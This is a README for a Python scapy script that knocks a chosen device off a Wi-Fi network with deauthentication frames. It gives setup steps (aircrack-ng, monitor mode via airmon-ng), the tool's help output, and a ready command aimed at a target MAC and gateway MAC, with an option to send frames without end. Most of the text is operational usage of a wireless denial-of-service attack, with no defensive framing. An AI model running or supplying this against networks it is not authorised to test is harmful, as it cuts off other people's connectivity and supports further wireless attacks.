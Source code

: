 # [Forcing a device to disconnect using scapy in Python]()
to run this:
- Linux Machine.
- USB WLAN Stick.
- aircrack-ng.
- Turn the network interface to Monitor mode using the command:
    ```
    airmon-ng start wlan0
    ```
- `pip3 install -r requirements.txt`.
- 
    ```
    python3 scapy_deauth.py --help
    ```
    **Output**:
    ```
    usage: scapy_deauth.py [-h] [-c COUNT] [--interval INTERVAL] [-i IFACE] [-v]
                         target gateway

    A python script for sending deauthentication frames

    positional arguments:
    target                Target MAC address to deauthenticate.
    gateway               Gateway MAC address that target is authenticated with

    optional arguments:
    -h, --help            show this help message and exit
    -c COUNT, --count COUNT
                            number of deauthentication frames to send, specify 0
                            to keep sending infinitely, default is 0
    --interval INTERVAL   The sending frequency between two frames sent, default
                            is 100ms
    -i IFACE              Interface to use, must be in monitor mode, default is
                            'wlan0mon'
    -v, --verbose         wether to print messages
    ```
    For instance, if you want to deauthenticate `"00:ae:fa:81:e2:5e"` on an access point `"e8:94:f6:c4:97:3f"`, you can easily by:
    ```
    python3 scapy_deauth.py 00:ae:fa:81:e2:5e e8:94:f6:c4:97:3f -i wlan0mon -v
    ```